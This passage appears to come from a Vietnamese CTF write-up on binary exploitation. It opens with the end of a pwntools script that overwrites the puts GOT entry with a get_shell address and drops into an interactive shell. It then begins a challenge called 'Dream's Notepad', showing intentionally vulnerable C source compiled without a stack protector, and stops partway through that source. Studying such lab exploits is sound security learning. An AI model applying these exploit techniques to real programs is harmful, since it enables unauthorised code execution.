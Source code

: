 mod(1, 0x10, p64(e.got['puts']))

create(0x30, b"B")
create(0x30, p64(e.sym['get_shell']))


p.interactive()
```
https://ogu123.tistory.com/186

https://thfist-1071.tistory.com/category/Security/%EC%8B%9C%EC%8A%A4%ED%85%9C%20%ED%95%B4%ED%82%B9%28PWN%2C%20%20System%29?page=2


-------------------------


19 . Dream's Notepad
--------------------------

1 bài về lệnh shell nhưng khá khó hiểu nên mình sẽ làm theo RTL 


```

//gcc -o Notepad Notepad.c -fno-stack-protector
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

void Initalize(){
   setvbuf(stdin, (char *)NULL, _IONBF, 0);
   setvbuf(stdout, (char *)NULL, _IONBF, 0);
   setvbuf(stderr, (char *)NULL, _IONBF, 0);
}

void main()
{
    Initalize();

    puts("Welcome to Dream's Notepad!\n");

    char title[10] = {0,};
    char content[64] = {0,};

    puts("-----Enter the content-----");
    read(0, content, sizeof(content) - 1);

    for (int i = 0; content[i] != 0; i++)
    {
        if (content[i] == '\n')
        {
            content[i] = 0;
            break;
        }
    }
